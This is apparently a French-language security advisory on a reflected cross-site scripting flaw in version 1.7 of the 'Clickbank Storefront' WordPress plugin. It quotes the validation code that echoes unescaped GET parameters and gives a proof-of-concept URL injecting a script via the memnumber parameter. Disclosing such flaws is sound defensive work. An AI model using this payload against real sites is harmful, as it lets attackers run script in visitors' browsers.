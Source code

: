 ```yaml
---
title: "Cross-Site Scripting (reflected) dans le plugin Wordpress 'Clickbank WordPress Plugin (Storefront)'"
tags: [vulnérabilité]
---
```


## Présentation du plugin

Le plugin Wordpress [Clickbank WordPress Plugin (Storefront)](https://wordpress.org/plugins/clickbank-storefront/) (slug: `clickbank-storefront`) se présente de cette façon :

> Clickbank® is the World’s Largest Digital Info Product Store. As a Clickbank affiliate, one can make tons of CASH by promoting these products.

> Using this plugin, you can host more than 10,000 clickbank products on your website as a wordpress plugin with just few clicks.
 
Il semble qu'à défaut d'obtenir une tonne de cash, vous allez surtout avoir droit à une tonne de XSS.

La version testée est la 1.7 qui date d'il y a 3 mois.

## La vulnérabilité

Le script principal `clickbank-storefronts.php` exécute une fonction à l'initialisation :

```php
add_action("init", 'cs_sql_inject_check');
```

Cette fonction est déclarée dans `functions.inc.php` :

```php
function cs_sql_inject_check()
{
   //$cs_error_info = cs_sql_inject_check_detail($_GET['page'],"int",3,'page');
   $cs_error_info = cs_sql_inject_check_detail($_GET['user_id'],"int",10,'user_id');
   $cs_error_info = cs_sql_inject_check_detail($_GET['cs_mcat'],"int",5,'cs_mcat');
   $cs_error_info = cs_sql_inject_check_detail($_GET['cs_scat'],"int",5,'cs_scat');
   $cs_error_info = cs_sql_inject_check_detail($_GET['cs_category'],"int",3,'cs_category');
   $cs_error_info = cs_sql_inject_check_detail($_GET['cs_temp_main_category'],"int",3,'cs_temp_main_category');        
   $cs_error_info = cs_sql_inject_check_detail($_GET['cs_main_category'],"int",3,'cs_main_category');                  
   $cs_error_info = cs_sql_inject_check_detail($_GET['memnumber'],"int",10,'memnumber');

   $cs_error_info = cs_sql_inject_check_detail($_GET['switch_view'],"text",4,'switch_view');
   $cs_error_info = cs_sql_inject_check_detail($_GET['sortby'],"text",30,'sortby');

   //$cs_error_info = cs_sql_inject_check_detail($_GET['niche'],"text",1,'niche');

   $cs_error_info = cs_sql_inject_check_detail($_GET['tar'],"text",100,'tar');
   //$cs_error_info = cs_sql_inject_check_detail($_GET['section'],"text",15,'section');

   $cs_error_info = cs_sql_inject_check_detail($_GET['cs_main_category_name'],"text",100    ,'cs_main_category_name');
   $cs_error_info = cs_sql_inject_check_detail($_GET['cs_mcat_name'],"text",100,'cs_mcat_name');
   $cs_error_info = cs_sql_inject_check_detail($_GET['mem'],"text",150,'mem');
   $cs_error_info = cs_sql_inject_check_detail($_GET['cs_review_id'],"text",100,'cs_review_id');
   $cs_error_info = cs_sql_inject_check_detail($_GET['criteria'],"text",30,'criteria');
   $cs_error_info = cs_sql_inject_check_detail($_GET['cs_keywords'],"text",30,'cs_keywords');
}
```

La fonction `cs_sql_inject_check_detail` est utilisée pour vérifier qu'un paramètre suit bien certaines règles de type et de longueur.

Le problème, c'est que quand ce n'est pas le cas, le paramètre est affiché sans vérification dans la page : 


```php
function cs_sql_inject_check_detail($cs_input,$cs_input_type,$cs_max_length,$cs_query_string)
{
     if (   ($cs_input_type==="int")  && (strlen($cs_input)>0)  )  {
        if (    (is_numeric($cs_input)) && ( strlen($cs_input) <= $cs_max_length )     ){}
        else { echo 'Error_code: ['.$cs_query_string.']['.$cs_input."][numeric_mx$cs_max_length]<br \>\n"; wp_die(); }
     }

     if (   ($cs_input_type==="text") && (strlen($cs_input)>0)  ){

        if (    ( strlen($cs_input) <= $cs_max_length )        ){}
        else { echo 'Error_code: ['.$cs_query_string.']['.$cs_input."][text_mx$cs_max_length] <br \>\n"; wp_die(); }
     }
}
```

Le plugin est donc vulnérable à des Cross-Site Scripting sur de nombreux paramètres.

PoC:

```
http://localhost:8000/?memnumber=%3CScRiPt%3Ealert%28%2FXSS%2F%29%3C%2FsCrIpT%3E
```
